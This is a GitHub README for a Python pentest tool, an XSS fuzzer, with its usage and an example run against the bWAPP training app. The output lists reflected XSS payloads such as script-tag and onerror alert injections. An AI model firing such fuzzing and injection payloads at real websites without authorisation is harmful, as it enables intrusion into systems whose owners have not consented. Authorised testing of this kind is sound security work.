 # python_offensive_scripts
## A collection of Python scripts to automate/help during a pentest  

Borrowed some of the scripts from https://github.com/brandonprry/gray_hat_csharp_code
and translated them in **python** (and made them smarter).<br>


## xss_fuzzer
An easy and stupid XSS fuzzer that fuzz all parameters (still missing headers, it's in the TODO list)
with a small payloads list.<br>
The script tries to detect an XSS vuln if the payload is rendered in the HTML output (but no check if the js is executed)
The usage of the script is pretty easy (and sqlmap like):
```bash
python xss_fuzzer.py --url <URL> --cookie <COOKIES> --data <POST_DATA> -v 
```
Where:
+ `--url`: The target URL
+ `--cookie`: The cookie string, if needed
+ `--data`: The data for the POST request
+ `-v`: Enables the verbose mode, use `git diff` to spot differences between correct requests and malformed ones (with the payloads)

An example (**bWAPP** - Reflected XSS (GET)):

```bash
python xss_fuzzer.py --url "http://172.16.13.130/bWAPP/xss_get.php?firstname=a&lastname=a&form=submit" --cookie "acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada; PHPSESSID=creb27ffbb441il42ips8515j5; security_level=0"  
[!] Found payload: <script>alert(1)</script> in body for param: lastname
[!] Found payload: "><script>alert(1)</script> in body for param: lastname
[!] Found payload: " onerror="alert(1)" in body for param: lastname
[!] Found payload: <script>alert(1)</script> in body for param: firstname
[!] Found payload: "><script>alert(1)</script> in body for param: firstname
[!] Found payload: " onerror="alert(1)" in body for param: firstname
```

### Notes:
+ Actually, there is no need to use such a simple payload list if there is no check on JS execution.<br>
More sofisticated and encoded payloads will be more useful, I'll add them ASAP.
+ Replicate the -p option in sqlmap

